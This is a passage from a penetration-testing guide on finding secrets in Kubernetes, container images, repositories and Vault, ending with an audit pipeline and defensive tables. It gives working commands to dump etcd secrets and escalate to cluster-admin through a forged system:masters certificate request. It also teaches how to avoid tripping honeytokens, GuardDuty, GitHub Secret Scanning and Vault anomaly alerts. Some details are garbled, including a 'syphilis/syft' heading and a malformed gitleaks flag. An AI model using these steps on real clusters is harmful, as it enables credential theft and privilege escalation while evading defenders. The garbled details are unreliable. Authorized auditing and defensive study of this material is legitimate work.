echo "eyJ..." | cut -d. -f2 | base64 -d 2>/dev/null | jq .

# Common JWT claims of interest
# - iss: cluster API server
# - sub: system:serviceaccount:<ns>:<sa>
# - aud: API audiences
# - kubernetes.io: { namespace, serviceaccount: { name, uid } }
```

### 12.5 etcd Direct Access (If RBAC Allows)

```bash
# Locate etcd
kubectl get pods -n kube-system -l component=etcd

# Exec into etcd pod
kubectl exec -n kube-system etcd-master -- sh

# Inside etcd pod, dump all secrets
ETCDCTL_API=3 etcdctl \
  --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  get / --prefix --keys-only | grep secrets

# Dump a specific secret
ETCDCTL_API=3 etcdctl ... get /registry/secrets/default/my-secret

# Full snapshot
ETCDCTL_API=3 etcdctl ... snapshot save /tmp/etcd-snap.db
# Pull the snapshot to your workstation for offline analysis
```

### 12.6 TLS Bootstrap Token Abuse

```bash
# If you can create CSR, you can pivot to cluster-admin
cat <<EOF | kubectl apply -f -
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: attacker-csr
spec:
  request: $(openssl req -new -newkey rsa:2048 -nodes -keyout tls.key -subj "/CN=system:masters" | base64 | tr -d '\n')
  signerName: kubernetes.io/kube-apiserver-client
  usages: [client auth]
EOF

kubectl certificate approve attacker-csr
kubectl get csr attacker-csr -o jsonpath='{.status.certificate}' | base64 -d > tls.crt

# Now use tls.crt + tls.key as a system:masters credential
kubectl --certificate-authority=/etc/kubernetes/pki/ca.crt \
  --client-certificate=tls.crt --client-key=tls.key \
  get pods -A
```

### 12.7 RBAC Pivoting Tool

```bash
# rbac-lookup — find what each subject can do
rbac-lookup --kind serviceaccount

# kube-hunter — automated cluster attack scanner
kube-hunter --remote <cluster-api>

# peirates — full Kubernetes attack framework
peirates
peirates:> list pods
peirates:> get secrets
peirates:> exec-to-api
```

---

## 13. Container Image Layer Analysis (dive, trivy)

### 13.1 dive — Interactive Layer Walk

```bash
# Install
brew install dive
# or
curl -sSfL https://github.com/wagoodman/dive/releases/latest/download/dive_linux_amd64 -o dive

# Walk a local image
dive image:tag

# CI mode (no TUI)
dive image:tag --ci-config .dive.yaml

# .dive.yaml
cat <<'EOF' > .dive.yaml
rules:
  # Fail if a layer adds .env, credentials files
  disallowFiles:
    - "/.env"
    - "/root/.aws/credentials"
    - "/etc/ssh/ssh_host_*"
  # Warn if layer size > 100MB
  lowestEfficiency: 0.9
  highestWastedBytes: 50MB
EOF
```

### 13.2 Inspect a Specific Layer

```bash
# Save image to tar
docker save image:tag -o image.tar
mkdir image && tar xf image.tar -C image

# List manifest
cat image/manifest.json | jq .

# Walk layers
for layer in image/*/layer.tar; do
  echo "=== $layer ==="
  tar tvf "$layer" | grep -E '(\.env|credentials|\.key|\.pem|config\.json|\.npmrc|\.pypirc|\.netrc)'
done

# Extract a specific file from a layer
tar xvf image/<hash>/layer.tar etc/.env
cat etc/.env
```

### 13.3 trivy — Image Scanner

```bash
# Secret scan only
trivy image --scanners secret --format json image:tag -o trivy.json

# Secret + vuln + misconfig
trivy image --scanners vuln,secret,misconfig image:tag

# Filter to high-severity secrets
jq '.Results[] | select(.Type=="secret") | .Secrets[] | select(.Severity=="HIGH" or .Severity=="CRITICAL")' \
  trivy.json
```

### 13.4 grype — SBOM-Based Matching

```bash
grype image:tag -o json > grype.json

# Focus on secrets
jq '.matches[] | select(.match.details.matcher=="secret-matcher")' grype.json
```

### 13.5 syphilis/syft — SBOM + secrets

```bash
# syft produces SBOM
syft image:tag -o json > sbom.json

# Also extracts secrets via syft's analyzer
syft image:tag -o json --scope all-layers | jq '.artifacts[] | select(.type=="secret")'
```

### 13.6 Common Hidden-Layer Secrets

```bash
# Files often baked into layers and "deleted" in later layers
for pattern in \
  ".env" \
  ".env.local" \
  ".env.production" \
  "config/database.yml" \
  "config/secrets.yml" \
  "credentials.json" \
  "serviceAccountKey.json" \
  "id_rsa" \
  "id_ed25519" \
  ".npmrc" \
  ".pypirc" \
  ".netrc" \
  ".docker/config.json" \
  ".kube/config" \
  ".aws/credentials" \
  ".gcp/service-account.json" ; do
  echo "=== searching for $pattern ==="
  for layer in image/*/layer.tar; do
    tar tvf "$layer" 2>/dev/null | grep -E "${pattern}$"
  done
done
```

---

## 14. Canary Token / Honeytoken Detection

### 14.1 Why Detection Matters

Verification of an unknown secret against a live provider can trigger a canary token. thinkst canarytokens, GitGuardian honeytokens, and custom AWS honey keys are deployed specifically to detect scanners. Naively verifying a honeytoken immediately alerts the defender.

### 14.2 AWS Honey-Key Heuristics

```bash
# Real AWS keys: AKIA + 16 chars of [A-Z0-9]
# Honey keys often:
#   - Have an account ID not associated with the target organization
#   - Are paired with a highly-visible location (top of README)
#   - Have permissions that look "interesting" (AdministratorAccess) when checked
#   - Have very low activity on CloudTrail BEFORE your test
#   - Have a known "honeypot" account ID range (e.g., 123456789012)

# Check the account ID (without auth)
# Extract from the AKIA prefix — not possible directly, but:
# - STS GetCallerIdentity returns it
# - Use a DIFFERENT (your own) IAM user to call STS AssumeRole with the suspect
#   ARN — this also fires CloudTrail but doesn't actually use the key

# Look for "canary" in nearby text
grep -B2 -A2 AKIAEXAMPLEAKIA /path/to/findings.json | \
  grep -iE "(canary|honeypot|honeytoken|thinkst|example|test)"
```

### 14.3 thinkst canarytokens.org Signatures

```bash
# thinkst canarytokens often have predictable patterns
# - Slack tokens with `xoxp-...-canary`
# - AWS API keys with very specific account IDs (e.g., 123456789012)
# - Custom-domain URLs like https://canarytokens.com/...
# - Stripe keys with `sk_test_canary...`

# Detect thinkst domain in any URL
grep -rE "canarytokens\.(com|org)" /target/

# Detect common honeytoken accounts
for acct in 123456789012 111111111111 999999999999; do
  grep -r "$acct" /target/
done
```

### 14.4 Safe Verification Order

```bash
# 1. Heuristic check (no API call)
# 2. Format validation (regex)
# 3. Local entropy check (high-entropy strings are more likely real)
# 4. Local context check (file context — README vs production code)
# 5. ONLY THEN verify with a single, light-touch API call

# Example workflow for AWS keys
for key in $(grep -oE 'AKIA[A-Z0-9]{16}' findings.txt); do
  context=$(grep -B1 -A1 "$key" findings.txt | tr '\n' ' ')
  if echo "$context" | grep -qiE "(example|test|fake|canary|honey|token)"; then
    echo "SKIP (honeytoken?): $key"
    continue
  fi
  echo "VERIFY (with client approval): $key"
  # aws sts get-caller-identity ...   # only after explicit approval
done
```

### 14.5 Custom Canary Deployment (Defense)

```bash
# Defender: deploy a fake AWS key with high alerts
# (thinkst canarytokens.org or DIY)

# Custom: create IAM user with zero permissions, deploy key in README,
# CloudWatch alarm on any API call from this user
aws iam create-user --user-name canary-decoy
aws iam create-access-key --user-name canary-decoy > canary_key.json
# Now bury canary_key.json's contents in your repo / configs / images
```

---

## 15. Custom Regex Patterns for Proprietary Secrets

### 15.1 Universal Patterns

```bash
# Universal secret prefixes (works with grep, semgrep, gitleaks)
cat <<'EOF' > patterns.txt
# AWS
AKIA[0-9A-Z]{16}
ASIA[0-9A-Z]{16}
aws_secret_access_key\s*=\s*[A-Za-z0-9/+=]{40}

# Stripe
sk_live_[A-Za-z0-9]{24,}
rk_live_[A-Za-z0-9]{24,}
sk_test_[A-Za-z0-9]{24,}

# GitHub
ghp_[A-Za-z0-9]{36}
gho_[A-Za-z0-9]{36}
ghu_[A-Za-z0-9]{36}
ghs_[A-Za-z0-9]{36}
ghr_[A-Za-z0-9]{36}
github_pat_[A-Za-z0-9_]{82}

# Slack
xox[baprs]-[A-Za-z0-9-]{10,}

# Google
AIza[0-9A-Za-z_\-]{35}
ya29\.[A-Za-z0-9_\-]+

# Twilio
SK[0-9a-fA-F]{32}

# SendGrid
SG\.[A-Za-z0-9_\-]{22}\.[A-Za-z0-9_\-]{43}

# Mailgun
key-[0-9a-zA-Z]{32}

# JWT (generic)
eyJ[A-Za-z0-9_\-]+\.eyJ[A-Za-z0-9_\-]+\.[A-Za-z0-9_\-]+

# PEM private keys
-----BEGIN (RSA |EC |DSA |OPENSSH )?PRIVATE KEY-----

# HashiCorp Vault
hvs\.[A-Za-z0-9_\-]{80,}
s\.[A-Za-z0-9]{24}            # legacy token format

# Database URLs
(postgres|mysql|mongodb|redis)://[^:]+:[^@]+@

# Generic password in env
(password|passwd|pwd|api_key|secret)["']?\s*[:=]\s*["'][^"']{8,}["']
EOF
```

### 15.2 grep-based Sweep

```bash
# Recursive grep with pattern file
grep -rEnf patterns.txt /target/dir --include="*.{yml,yaml,json,env,toml,ini,conf,cfg,sh,js,ts,py,go,java,rb,php,properties}" 2>/dev/null > candidates.txt

# Filter false positives
grep -vE "(example|test|fake|YOUR_|REPLACE|<|>|xxxx|\\$\\{|process\\.env)" candidates.txt > filtered.txt
```

### 15.3 High-Entropy Detection

```bash
# Find high-entropy strings (useful for unknown secret formats)
# Using trufflehog's entropy detector
trufflehog filesystem /target/dir --include-detectors=generic

# Manual entropy via Python
python3 <<'EOF'
import math, re, collections

def shannon_entropy(s):
    if not s: return 0
    freq = collections.Counter(s)
    n = len(s)
    return -sum((c/n) * math.log2(c/n) for c in freq.values())

with open('/tmp/strings.txt') as f:
    for line in f:
        s = line.strip()
        # Look for long base64-ish strings
        for m in re.findall(r'[A-Za-z0-9+/=_-]{20,}', s):
            e = shannon_entropy(m)
            if e > 4.5:
                print(f"{e:.2f} {m[:60]}")
EOF
```

### 15.4 gitleaks Custom Patterns (Recap)

```toml
# See Section 1.4 — same approach, but here for completeness
[[rules]]
id = "client-proprietary-v1"
description = "Client proprietary token v1"
regex = '''ct_[A-Z0-9]{40}'''
entropy = 3.5
keywords = ["ct_"]
```

---

## 16. OPSEC-Aware Scanning Techniques

### 16.1 Local-Clone-First Rule

```bash
# NEVER scan a remote repo's full history during recon
# DO clone locally and scan the filesystem

# Bad (triggers GitHub Secret Scanning)
trufflehog github --repo https://github.com/client/repo

# Good (stealthy)
git clone --mirror https://github.com/client/repo repo-bare
trufflehog git file://repo-bare --no-verification
```

### 16.2 Verification Budget

```bash
# Define a verification budget per engagement
# Example: max 20 live API verifications per day
COUNT=0
MAX=20

for secret in candidates; do
  if [ $COUNT -ge $MAX ]; then
    echo "Verification budget reached; restaging remaining for tomorrow"
    break
  fi
  # verify...
  COUNT=$((COUNT+1))
done
```

### 16.3 Provider-Side Detection to Avoid

| Provider | Detector | Trigger |
|----------|----------|---------|
| GitHub | Secret Scanning | Push of secret-shaped string |
| AWS | GuardDuty UnauthorizedAccess:IAMUser/AnomalousBehavior | API call from unusual IP |
| AWS | CloudTrail anomaly | Spike in GetSecretValue calls |
| GitGuardian | Honeytoken | Any use of a planted honeytoken |
| thinkst | Canarytoken | HTTP/DNS callback from planted token |
| Stripe | Dashboard alert | Live API call from new IP |
| HashiCorp | Vault audit device | Read-volume spike on a single token |

### 16.4 Rate-Limit / Distribute Reads

```bash
# Vault: spread reads over time
for path in $(vault kv list -format=json secret/ | jq -r '.[]'); do
  vault kv get -format=json "secret/$path"
  sleep 30   # spread to avoid read-volume anomaly
done

# AWS Secrets Manager: use parallel reads within reason
# but cap concurrency to avoid CloudTrail spike
seq 1 100 | xargs -P 5 -I{} aws secretsmanager get-secret-value --secret-id dev/secret/{}
```

### 16.5 Tmpfs + Cleanup

```bash
# Mount a tmpfs for working with harvested secrets
sudo mkdir -p /mnt/harvest
sudo mount -t tmpfs -o size=512M tmpfs /mnt/harvest
# ... do all secret work in /mnt/harvest ...
# On cleanup, unmount — secrets never hit disk
sudo umount /mnt/harvest
```

### 16.6 Egress Sanitization

```bash
# If exfiltrating findings to a collection server, encrypt+sanitize
# Remove raw secrets from logs
export REDACT_PATTERNS='AKIA[0-9A-Z]{16}|sk_live_[A-Za-z0-9]+|ghp_[A-Za-z0-9]+'

# Sanitize command before logging
sanitize() { sed -E "s/$(echo $REDACT_PATTERNS)/[REDACTED]/g"; }
echo "Found: $FINDING" | sanitize >> log.txt
```

---

## 17. Full Lifecycle Workflow

### 17.1 Combined Pipeline

```bash
#!/usr/bin/env bash
# secret_audit.sh — end-to-end audit pipeline
set -euo pipefail

TARGET_REPO=$1
WORK_DIR=/tmp/audit_$$
mkdir -p $WORK_DIR && cd $WORK_DIR

echo "[1/8] Mirror-clone repo"
git clone --mirror "$TARGET_REPO" repo-bare

echo "[2/8] gitleaks (full history)"
gitleaks detect --source repo-bare --report-path gitleaks.json --redact --log-logs=" --all"

echo "[3/8] trufflehog (no verification)"
trufflehog git file://repo-bare --no-verification --no-update --json > trufflehog_unverified.jsonl

echo "[4/8] semgrep SAST"
git clone "$TARGET_REPO" repo-src
semgrep --config p/secret-detection --config custom.yml repo-src --json -o semgrep.json

echo "[5/8] Manual review & dedupe"
jq -s '.[].findings[]?' gitleaks.json semgrep.json | \
  jq -s 'unique_by(.rule_id + .secret)' > deduped.json

echo "[6/8] Canary-token detection"
# (Section 14 heuristics)
python3 canary_check.py deduped.json > canary_filtered.json

echo "[7/8] Verify (with client approval)"
# (Section 2 — only after explicit OK)
# trufflehog git file://repo-bare --only-verified

echo "[8/8] Report"
# (Section 17.2 template)
jq -r '.[] | "\(.severity)\t\(.rule_id)\t\(.file):\(.lineStart)"' canary_filtered.json > findings.tsv
```

### 17.2 Report Template

```markdown
# Secret Audit Report — <Client>
*Date: YYYY-MM-DD | Auditor: <name> | Scope: <repo/image/host>*

## Executive Summary
- Total candidates: N
- Verified live: N
- Already rotated by client: N
- Outstanding (unrotated): N

## Findings by Severity
| Severity | Count |
|----------|-------|
| CRITICAL | N |
| HIGH | N |
| MEDIUM | N |
| LOW | N |

## Blast-Radius Graph


## Findings Table
| ID | Where Found | Type | Masked | Verified | Owner | Rotated | Notes |
|----|-------------|------|--------|----------|-------|---------|-------|
| F-001 | git commit abc123 (2021) | AWS key | AKIA...XYZ9 | yes | infra@ | pending | production-read |
| F-002 | image layer 4 | Stripe sk_live | sk_live_...AB | yes | payments@ | rotated | test mode |

## Recommendations
1. Install pre-commit hook (gitleaks) within 30 days
2. Add trufflehog scan to GitHub Actions
3. Rotate F-001 immediately
4. Vault policy audit for blast-radius reduction
```

---

## 18. Defensive Cross-Reference

| Defense | Tool / Pattern | Section |
|---------|----------------|---------|
| Pre-commit hook | gitleaks pre-commit | 1.5 |
| CI scanning | gitleaks-action, semgrep-ci | 1.6, 3.5 |
| Image scanning | trivy, grype | 13.3, 13.4 |
| Runtime secret detection | Falco rules, trufflehog filesystem | 2.4 |
| Short TTLs | Vault token TTL=24h | 9.6 |
| Canary tokens | thinkst, GitGuardian honeytokens | 14.5 |
| Vault least privilege | per-path policies | 9.4 |
| Provider-side leak detection | GitHub Secret Scanning, AWS CloudTrail | 16.3 |
| Audit logging | Vault audit devices, CloudTrail data events | 9.6 |
| OIDC federation | Replace long-lived CI tokens | 11.7 |

---

## 19. Real-World Incident References

| Incident | Year | Vector | Lesson |
|----------|------|--------|--------|
| Codecov supply chain | 2021 | Compromised bash uploader | Pin third-party CI to SHA |
| CircleCI secret leak | 2023 | Orb leak | Audit orb usage; rotate on incident |
| LastPass source code | 2022 | Dev env compromise | Production secrets live in dev too |
| Toyota | 2022 | Access key in repo | Pre-commit hooks prevent this |
| Samsung | 2023 | Hardcoded keys in app | Mobile app secret scanning (apkleaks) |
| GitHub Actions tj-actions/changed-files | 2025 | Maintainer account takeover | Pin actions to SHA, audit popularity |
| Capital One | 2019 | SSRF → metadata → S3 | Block IMDSv1; require IMDSv2 |
| Twitch | 2021 | Git repo dump | Scan + rotate after every push |
